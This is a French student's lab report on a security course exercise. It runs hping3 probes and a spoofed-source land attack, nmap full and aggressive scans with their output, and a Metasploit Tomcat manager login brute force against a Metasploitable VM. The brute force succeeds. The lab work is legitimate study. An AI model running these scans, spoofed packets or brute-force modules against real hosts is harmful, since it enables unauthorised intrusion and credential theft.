



# TP 2
Les premières difficultés sont venues de l'installation : entre la copie des archives depuis la clé USB, la fastidieuse libération des 40 Go nécessaire sur mon ordinateur qui n'en avait plus que 10 de libre, et la décompression (étonament lente ?), 1h45 on été perdues au début de la séance.  

## hping3
- Je commence par tester l'envoi de paquets SYN sur différents ports (toujours avec 80 comme port source).  
Le port 80 me renvoie un SA (flags=SA), le port 1234 me donne RA.  

- J'essaie ensuite avec des paquets ACK : `hping3 -A -s 80 -p 80 -c 3 192.168.56.102`  
-> la réponse est toujours R (flags=R)  

- Attaque land contre le port SSH : `hping3 -S -s 22 -p 22 -c 3 -a 192.168.56.102 192.168.56.102`  
-> Je suis supposé ne pas recevoir de réponse, car étant donné que j'ai donné une fausse IP source, ma destination va envoyer sa réponse à cette dernière et non pas à moi.  Problème : je reçois bien un paquet ? Aucune idée de pourquoi/comment  

## nmap
- Je commence par tester le scan basique des ports TCP puis de tous les ports : `nmap -p [1-65535] -v -n 192.168.56.102`  
-> Sortie
    ```
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:49 CEST
    Initiating ARP Ping Scan at 11:49
    Scanning 192.168.56.102 [1 port]
    Completed ARP Ping Scan at 11:49, 0.06s elapsed (1 total hosts)
    Initiating SYN Stealth Scan at 11:49
    Scanning 192.168.56.102 [1000 ports]
    Discovered open port 139/tcp on 192.168.56.102
    Discovered open port 25/tcp on 192.168.56.102
    Discovered open port 53/tcp on 192.168.56.102
    Discovered open port 80/tcp on 192.168.56.102
    ...
        ...
    Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
        Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.120KB)
    ```


- Scan agressif de tous les ports : `nmap -A -p 1-65535 -v -n 192.168.56.102`  
-> Sortie  
    ```
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:35 CEST
    NSE: Loaded 155 scripts for scanning.
    NSE: Script Pre-scanning.
    Initiating NSE at 11:35
    Completed NSE at 11:35, 0.00s elapsed
    Initiating NSE at 11:35
    Completed NSE at 11:35, 0.00s elapsed
    Initiating NSE at 11:35
    Completed NSE at 11:35, 0.00s elapsed
    Initiating ARP Ping Scan at 11:35
    Scanning 192.168.56.102 [1 port]
    Completed ARP Ping Scan at 11:35, 0.04s elapsed (1 total hosts)
    Initiating SYN Stealth Scan at 11:35
    ```

    On remarque des affichages spécifiques pour certains ports : pour ces ports connus, des tests supplémentaires ont été effectués afin d'obtenir + d'infos sur la cible. Exemple avec MySQL : 

    ```
    3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.0.51a-3ubuntu5
    |   Thread ID: 26
    |   Capabilities flags: 43564
    |   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, Support41Auth, SupportsTransactions, LongColumnFlag, SwitchToSSLAfterHandshake
    |   Status: Autocommit
    |_  Salt: #!{i}X~5+v25R}Ajqy,k

    ```

    On obtient également des informations sur la machine cible elle-même

    ```
    Host script results:
    | smb-os-discovery: 
    |   OS: Unix (Samba 3.0.20-Debian)
    |   Computer name: metasploitable
    |   NetBIOS computer name: 
    |   Domain name: localdomain
    |   FQDN: metasploitable.localdomain
    |_  System time: 2023-10-20T05:36:01-04:00

    ```

    Je remarque également que 19 paquets supplémentaires ont été envoyés par rapport au scan de base (1020 contre 1001), ce qui semble être très peu ?

    ```
    Nmap done: 1 IP address (1 host up) scanned in 25.24 seconds
           Raw packets sent: 1020 (45.626KB) | Rcvd: 1016 (41.430KB)
    ```


- Scan des 22 ports les plus courants : 
    - Sans tous les tests : `nmap -p 1-65535 -v -n --top-ports 22 192.168.56.102`  
        ```
        Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:44 CEST
        Initiating ARP Ping Scan at 11:44
        Scanning 192.168.56.102 [1 port]
        Completed ARP Ping Scan at 11:44, 0.06s elapsed (1 total hosts)
        Initiating SYN Stealth Scan at 11:44
        Scanning 192.168.56.102 [22 ports]
        Discovered open port 53/tcp on 192.168.56.102
        Discovered open port 139/tcp on 192.168.56.102
        Discovered open port 111/tcp on 192.168.56.102
        ```

        Cette fois seuls 23 paquets ont été envoyés. 

    - Avec tous les tests : `nmap -A -p 1-65535 -v -n --top-ports 22 192.168.56.102`  
    -> La sortie est globalement la même que pour le scan agressif précédent.  
    Cette fois c'est 42 paquets qui ont été envoyés (comme tout à l'heure 19 de + que pour le scan non-agressifs, ce qui semble indiquer que le scan agressif ne demande en général que l'envoi de 19 paquets)

## Metasploit 

- `db_status` (juste pour vérifier) : "[*] Connected to msf. Connection type: postgresql. Connection name: local_db_service.
"

### Brute force 
- Recherche de l'exploit : `search mgr_login` : 
- `use auxiliary/scanner/http/tomcat_mgr_login` : Le terminal m'indique qu'on est en train d'utiliser l'exploit   

- On set les options : 
    - `set RHOSTS 192.168.56.102` : "RHOSTS => 192.168.56.102"
    - `set RPORT 8180` : "RPORT => 8180"
- On lance l'exploit avec `exploit` :   
On finit par trouver un login correct, le brute force a réussi  
  

Puis la VM a soudainement planté et je crois que c'est un signe qui m'indique qu'il est temps de m'arrêter.  